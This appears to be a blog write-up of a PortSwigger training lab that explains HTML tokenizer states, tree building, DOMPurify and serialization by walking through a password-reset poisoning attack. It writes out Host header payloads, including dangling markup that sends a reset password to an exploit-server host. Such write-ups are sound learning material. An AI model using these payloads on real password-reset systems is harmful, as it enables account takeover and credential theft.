




+++
date = '2026-04-24T11:11:59+02:00'
title = 'Diving into HTML parsing through a PortSwigger lab'
summary = "The HTML you see in devtools is not the HTML the server sent... A PortSwigger lab on dangling markup injection got me wondering what actually happens between the raw HTML a server sends and what a browser displays. This article traces that journey, from a /login that vanished from the DOM to the HTML tokenizer state machine, tree construction, and DOMPurify sanitization. Less of a write-up, more of an exploration of HTML parsing mechanics."
draft = false
+++

--- 
> **TL;DR** - A PortSwigger lab on dangling markup injection got me wondering what actually happens between the raw HTML a server sends and what a browser displays. This article traces that journey, from a /login that vanished from the DOM to the HTML tokenizer state machine, tree construction, and DOMPurify sanitization. Less of a write-up, more of an exploration of HTML parsing mechanics.
--- 

I recently worked on a [PortSwigger lab](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup) about *Host Header injection* attacks. I quickly found the entry point, but after dozens of tested payloads I still couldn't crack the thing. I didn't understand the underlying mechanics. I ended up looking at the solution, and it worked perfectly fine, but...

***I didn't understand why.***

This is something that's missing from a lot of write-ups: the reasoning. Why this payload, this specific approach, what drives a particular decision at a given moment. Because at the end of the day, the solution alone is less interesting, the journey matters far more to truly understand what's going on.

I didn't understand the solution. So I went digging. And by pulling the thread, what started as a write-up turned into an exploration of HTML parsing.


## Context
The lab *[Password reset poisoning via dangling markup](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup)* is part of the *Host Header Attacks* learning-path.
In practice, it features a login form with a `Forgot Password` button. Clicking it redirects to a form where you can enter a username and submit a reset request. If the user is valid, an email is received in the mailbox made accessible on the lab server. We're given valid credentials: `wiener:peter`, and the goal is to log in to the `carlos` account.

## Foothold

The lab description is explicit: *"This lab is vulnerable to password reset poisoning"*. We're in the context of **Host header injection**, so it's a safe bet that the attack vector lies in the request triggered by the password reset. Proxy on, quick walkthrough of the lab's various features just to be thorough. The request we care about is this one:

```
POST /forgot-password HTTP/1.1
Host: xxx.web-security-academy.net
...
csrf=WaDq2uC7j4oDNRULoIID5GhpW4wKcQC4&username=wiener
```

After firing the request with the `wiener` user, an email lands in the exploit server mailbox:


### Host header injection enumeration

We need to figure out how the Host header can be manipulated. Here's my enumeration approach:


Tested payloads:
- Original: `Host: xxx.web-security-academy.net` -> OK
- Arbitrary: `Host: ecorp.net` -> Error
- Port syntax: `Host: xxx.web-security-academy.net:foo` -> OK

Lucky break, one of my first payloads (port syntax) is accepted and lets us modify the Host header without triggering an error. That's our attack entry point.

### A simple matter of quotes

In the lab mailbox, several emails corresponding to the different valid requests we sent. We can view the HTML rendering of the email, **as well as the raw HTML source (before browser rendering)** by clicking the `View raw` link. Let's look at the email received from the request with the *port-syntax* payload.

We had sent a request with the following payload:

`Host: xxx.web-security-academy.net:foo`

Once the email is received, we can see in the *raw view*:

`<p>Hello!</p><p>Please <a href='https://xxx.web-security-academy.net:foo/login'>click here</a> to login with your new password: nFc6f2iyCn</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>`

The HTML source in *web view* (extracted via browser devtools):

`<p>Hello!</p><p>Please <a href="https://xxx.web-security-academy.net:foo/login">click here</a> to login with your new password: nFc6f2iyCn</p><p>Thanks,<br>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>`

We can see that the *Host header* is indeed used to build the login page link in the email. That's our entry point.

Looking more closely, the difference is subtle but it's there: the quotes are single in *raw view* but double in *web view*. This is the kind of detail that bugs me. It might seem trivial but... **how does a single quote turn into a double quote?** When you dig into it, it's anything but trivial.

#### HTML parsing, Rendering & Serialization

A browser never renders HTML directly to the screen. The parsing flow is always:

> Raw HTML text -> Tokenizer -> Tree construction -> DOM

Even for a static `index.html` page with just `<h1>Hello</h1>`, the browser:

1. Receives the byte stream
2. Tokenizes it
3. Builds the DOM tree in memory

The [HTML parsing model](https://html.spec.whatwg.org/multipage/parsing.html#overview-of-the-parsing-model) is defined by the WHATWG, the organization that maintains the HTML spec used by browsers.

***The browser works in memory with the DOM. For the browser, HTML doesn't really exist.***

But then what about the HTML we see in devtools? That's the DOM *translated back* into HTML, the reverse operation called **[serialization](https://html.spec.whatwg.org/multipage/parsing.html#serialising-html-fragments)**. It only kicks in when something explicitly requests a textual representation of the DOM, like when devtools display the source code.

In the DOM, the `href` attribute is just a value (a string), with no notion of quote type. Devtools read the DOM and re-serialize it into HTML to display it. *The HTML serializer (WHATWG spec) always uses double quotes for attributes, regardless of the original quoting:*

> For each attribute that the element has, append a U+0020 SPACE character, the attribute's serialized name as described below, a U+003D EQUALS SIGN character (=), a U+0022 QUOTATION MARK character ("), the attribute's value, escaped as described below in attribute mode, and a second U+0022 QUOTATION MARK character (").

To recap the full flow:

> `Raw HTML` → `Tokenizer` → `Tree Builder` → `DOM Tree` → `DOM Serializer`

***It's the DOM serializer that, when reconstructing the HTML, wraps attribute values with `"`. That's how the `'` from the raw view turns into `"` in the web view.***

## Looking for a lost `/login`

### Escaping `href`

We know that the HTML code from the server reflects our *Host header* inside an `href='...'` attribute. Let's try escaping by injecting a `'` at the end of our payload.

We send a new request with the following payload:

`Host: xxx.web-security-academy.net:foo'`

Once the email is received, we see in the *raw view*:

`<p>Hello!</p><p>Please <a href='https://xxx.web-security-academy.net:foo'/login'>click here</a> to login...</p>`

The HTML source in *web view*:

`<p>Hello!</p><p>Please <a href="https://xxx.web-security-academy.net:foo">click here</a> to login...</p>`

Our payload works, it successfully closes the target `href`. ***Except... in web view, `/login` has vanished.***

We saw that when a browser receives raw HTML, the steps are as follows[^1]:
> `Tokenizer` -> `Tree Construction` -> `DOM`. 

To understand where our `/login` went, we need to understand how the tokenizer works.

### Tokenizer

Here's what the tokenization of an HTML string actually looks like:



In this example, the string is parsed and different tokens are produced as output.

#### Tokens

The tokenizer reads the character stream one character at a time and produces **tokens** of the following types as it parses[^2]:
- **StartTag**: `<a href='url'>` (tag and attributes included)
- **EndTag**: `</a>`
- **Character**: content between opening and closing tags
- **Comment**: `<!-- comment -->`
- **DOCTYPE**: `<!DOCTYPE html>`
- **EOF**: end-of-stream signal for the HTML flow

#### States

The tokenizer is a finite state machine: for each character read, it's in a given state, and the character determines the transition to the next state and the potential generation of a token.

The official reference, the [WHATWG spec, section 13.2.5](https://html.spec.whatwg.org/multipage/parsing.html#tokenization), defines 80 states in total. The states relevant to us here cover tag and attribute parsing:

- **Data State**: the default state. We accumulate raw text until we hit `<`, which triggers the transition to Tag Open.
- **Tag Open / End Tag Open**: we just read `<`. If the next character is a letter, we create a StartTag and move to Tag Name. If it's `/`, it's an EndTag.
- **Tag Name**: we accumulate tag name characters (`a`, `div`, etc.) until a space (-> Before Attribute Name) or `>` (-> emit the tag, back to Data).
- **Before Attribute Name**: we're waiting for the start of an attribute name. Spaces are ignored, `>` emits the tag.
- **Attribute Name**: we accumulate the attribute name until `=` (-> Before Attribute Value).
- **Before Attribute Value**: we're waiting for the start of the value. This is where the quote type is determined: `'` -> single-quoted, `"` -> double-quoted, anything else -> unquoted.
- **Attribute Value (Single-Quoted)**: the critical state for our lab. Everything is accumulated into the value until the next `'` closes the value. The tokenizer doesn't know anything about URL semantics, it's just looking for the closing quote. That's why the `'` in `foo'` prematurely terminates the href.
- **After Attribute Value (Quoted)**: we just closed a quoted value. The spec requires a space, `>` or `/` here. Any other character is a **parse error** but starts a new attribute name. This is exactly what happens with `/login'`: the `/` after `foo'` becomes the beginning of a spurious attribute.
- **Self-Closing Start Tag**: reached when `/` is read in certain contexts, expects `>` to emit a self-closing tag.

With all that in mind, let's revisit the parsing of our injection:



***What's happening here?***

When the tokenizer is in `After Attribute Value (Quoted)` after closing `foo'` and encounters `/login`, it's a parse error: it expects `/` to be followed by `>`. The tokenizer flags the error and continues parsing. This is how it's supposed to work: produce a valid sequence of tokens no matter what. So it treats `login'` as a new attribute name.

In the end, the parser generates an internal warning but still builds a StartTag token with a first `href` attribute (where we got our injection in) and a spurious `login'` attribute. The `/` from `/login'` disappears because it triggers a self-closing attempt that fails: it's consumed as a delimiter but the self-closing is aborted at the next character (`l` instead of `>`). So the `/` doesn't appear in any token.

##### About HTML parser error handling

The HTML5 spec defines a *"well-defined"* recovery behavior[^3] for every syntactic error case. The tokenizer, operating as a deterministic state machine, guarantees a valid set of tokens as output, usable for tree construction.

The tokenizer exists to provide a valid **structure** for tree construction. It's purely syntactic and doesn't care at all about semantic validation of the HTML.

***Ok, `login'` gets turned into an attribute, but that still doesn't explain why it disappears from the browser rendering.***

### DOMPurify

Looking more closely at the page's HTML source, we can see that the email body sits inside a `div` with the attribute `class="dirty-body"`, and that a script on DOM load calls `DOMPurify.sanitize()` on elements of that class.

```html
<div style="word-break: break-all" class="dirty-body" data-dirty="&lt;p&gt;Hello!&lt;/p&gt;&lt;p&gt;Please &lt;a href='https://0ad800800376a7f6816b8a3500b000a6.web-security-academy.net...'">...</div>

<!-- ... Some code here ... -->

<script>
    window.addEventListener('DOMContentLoaded', () => {
        for (let el of document.getElementsByClassName('dirty-body')) {
            el.innerHTML = DOMPurify.sanitize(el.getAttribute('data-dirty'));
        }
    });
</script>
```


And it turns out that one of DOMPurify's sanitization behaviors is to strip attributes that aren't on its allowlist.


To sum up, the full chain (up to the HTML seen in browser devtools) is:
> `Raw HTML` -> `Tokenizer` -> `Tree Builder` -> `DOM Tree` -> `DOMPurify` (tree sanitization) -> `DOM Serializer` (Devtools)


***So it's DOMPurify that's responsible for the disappearance of `login'` in the web view.***

## Escalating

We've seen that injecting `:foo'` lets us close the target `href` and that whatever follows before `>` gets turned into an attribute.

### End tag injection

Let's see if we can close the opening `<a` tag. We send a new request with the following payload:
- `Host: xxx.web-security-academy.net:'>`

Once the email is received, we see in the *raw view*:

`<p>Hello!</p><p>Please <a href='https://xxx.web-security-academy.net:'>/login'>click here</a> to login...</p>`

We see in the *web view*:

`<p>Hello!</p><p>Please <a href="https://xxx.web-security-academy.net:">/login'&gt;click here</a> to login...</p>`

It worked: the `<a>` tag is closed and `/login'` ended up in the link text. Note that the original closing chevron `>` was HTML-encoded (`&gt;`) by DOMPurify: at serialization time, that chevron is part of the link text, no longer part of the HTML markup. This is another role of DOMPurify to encode special characters present in raw text.

### Controlled link injection

Let's now try injecting a new link:

- `Host: xxx.web-security-academy.net:'><a href="https://example.com"`

We don't close the tag because the original closing chevron from the first link should do the job.

Once the email is received, we see in the *raw view*:

`<p>Hello!</p><p>Please <a href='https://xxx.web-security-academy.net:'><a href="https://example.com"/login'>click here</a> to login...</p>`

The `>` from the original first link seems to close our injected link correctly.

We see in the *web view*:

`<p>Hello!</p><p>Please <a href="https://xxx.web-security-academy.net:"></a><a href="https://example.com">click here</a> to login...</p>`

We now have two independent, properly formed links. But surprise: an extra `</a>` inserted itself between our two links.

This time it's the **Tree builder** at work. The tokenizer did its job: it produced two consecutive StartTag `<a>` tokens. The HTML5 spec explicitly forbids nesting links: when a StartTag `<a>` is encountered while an `<a>` is already open, the tree builder closes the existing one first before opening the new one. This is handled by the [adoption agency algorithm](https://html.spec.whatwg.org/multipage/parsing.html#parsing-main-inbody).

We can verify this in the browser console:
```js
const div = document.createElement('div');
div.innerHTML = '<a href="first"><a href="second">text</a>';
div.innerHTML;
// output -> '<a href="first"></a><a href="second">text</a>'
```
***Thanks to this process, our injection is clean and allows us to control the target of the `click here` link.***

### Link hit

Let's see what happens if we point our controlled link to our exploit server.

We send a new request with the following payload:

`Host: xxx.web-security-academy.net:'><a href="https://exploit-xxx.exploit-server.net/test"`

Checking the exploit server logs, we can see a request was made from an IP different from ours.


This confirms that links in the email are automatically visited by the antivirus. Remember the *"This email has been scanned by the MacCarthy Email Security service"* mention in the email body.

We also remember that the lab description mentions *dangling markup*, and this is where it all starts making sense: we need to leak the new password contained in the email through the parameters of the link visited on our exploit server.

## Dangling markup

> Dangling markup is a type of HTML injection attack, which exploits an unclosed tag or attribute

The idea: we inject a piece of HTML with an opening delimiter (quote, tag, attribute) making sure it's never closed. The parser, looking for the closing delimiter, will then "swallow" all the content following the injection as part of that open element. We can make a first attempt by removing the closing `"` from our controlled `href` (we add a `?` so that whatever follows is treated as a parameter of our URL):

`Host: xxx.web-security-academy.net:'><a href="https://exploit-xxx.exploit-server.net?`

Once the email is received, we see in the *raw view*:

`<p>Hello!</p><p>Please <a href='https://xxx.web-security-academy.net:'><a href="https://exploit-xxx.exploit-server.net?/login'>click here</a> to login with your new password: 9dXDOe68EU...</p>`

The dangling seems to have worked: the `href` quote is never closed, everything that follows gets sucked into the string. We see in the *web view*:

`<p>Hello!</p><p>Please <a href="https://xxx.web-security-academy.net:"></a></p>`

***Everything after the first `href` has vanished. What happened?***

Let's go through the steps again:

1. **Tokenizer**



Everything after the `"` in the second `href` is treated as the attribute value in one long string. The second StartTag `<a>` is emitted at `EOF` with an `href` containing the entire rest of the email.

2. **Tree builder**: as we saw [earlier](#controlled-link-injection), when it receives a second StartTag `<a>` while an `<a>` is already open, it applies the adoption agency algorithm[^4]: it closes the first `<a>` before inserting the second. Hence the `</a>` between the two links. The second `<a>` has an `href` that contains the entire rest of the email as its attribute value. Both StartTags with their respective `href` attributes are added to the DOM.

3. **DOMPurify** then plays its sanitization role: it detects the suspicious content in the second `href` and recognizes it for what it is, an injection attempt. It strips that link.

4. **Result**: only the first link survived the cleanup.

### Leaked password

***But before being rendered in our mailbox, the antivirus did visit our link. We can find all the leaked content in our logs:***


From here the job is done, all that's left is to repeat the process for the `carlos` user and grab his new password.

### Alternative payload

Once you properly understand the HTML parsing process, a more minimalist approach becomes obvious: do the dangling markup directly in the original link rather than adding an extra one.
`Host: xxx.web-security-academy.net:'href="//exploit-xxx.exploit-server.net?`

## Takeaways

This lab taught me more about HTML parsing than about dangling markup itself. Here's what I take away from it:

The HTML you see in devtools is not the HTML the server sent. It's a reconstruction. Between the two, there's a tokenizer, a tree builder, potentially a sanitizer, and a serializer. Each of these steps silently transforms the content. Understanding that gap means understanding where vulnerabilities are born.

The security of an injection depends on *which actor* processes the content and *at what point*. Here, DOMPurify does its job correctly, it detects and removes the injection. But the antivirus already visited the link before sanitization. The protection exists, it just comes too late.

Dissecting things, *making the implicit explicit*, that's an approach I'm particularly fond of for building deep understanding. And once you understand, you don't need to memorize.

Shoutout to the [PortSwigger](https://portswigger.net/) labs that have been part of my daily practice lately. Whatever the starting topic, digging into these labs always ends up deepening your overall understanding of web mechanics, way beyond the stated topic.


[^1]:https://html.spec.whatwg.org/multipage/parsing.html#overview-of-the-parsing-model
[^2]:https://html.spec.whatwg.org/multipage/parsing.html#tokenization
[^3]:https://html.spec.whatwg.org/multipage/parsing.html#parse-errors
[^4]:https://html.spec.whatwg.org/multipage/parsing.html#parsing-main-inbody - (Search for "A start tag whose tag name is a")